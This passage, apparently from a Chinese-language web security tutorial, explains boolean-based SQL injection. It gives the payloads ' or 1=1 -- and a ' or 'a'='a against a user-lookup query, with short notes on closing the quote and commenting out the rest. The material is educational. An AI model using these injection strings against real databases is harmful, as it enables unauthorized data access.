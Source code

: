 ![在这里插入图片描述](72、sql注入/2020080311091799.png)
![在这里插入图片描述](72、sql注入/20200803110927152.png)

### 2、基于布尔的注入

布尔逻辑注入的思路是闭合SQL语句、构造or和and逻辑语句、注释多余的代码；

```sql
执行语句：SELECT first_name, last_name FROM users WHERE user_id = ' ' or 1=1 -- aaaa ';

id='a ' or 'a'='a'  -> a ' or 'a'='a
说明： 
第一个' 用于闭合前面的条件 or 1=1 为真的条件 -- 将注释后面的所有语句

```

![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150705.png)

